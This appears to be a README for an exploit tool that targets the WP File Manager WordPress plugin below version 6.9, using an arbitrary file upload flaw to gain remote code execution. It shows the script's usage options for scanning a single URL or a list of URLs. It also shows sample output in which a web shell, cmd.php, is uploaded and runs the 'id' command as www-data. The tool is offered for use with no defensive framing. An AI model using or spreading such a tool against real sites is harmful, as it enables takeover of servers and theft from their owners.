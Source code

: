 # wp-file-manager
WP File Manager < 6.9 - Arbitrary File Upload leading to RCE

```
usage: wp-file-manager.py [-h] [-u URL] [-f FILE]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of host to check will need http or https
  -f FILE, --file FILE  File of URLS to check
```

```
[+] Testing https://localhost [+]
[*]Shell Uploaded https://localhost/wp-content/plugins/wp-file-manager/lib/files/cmd.php?cmd=id[*]
Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
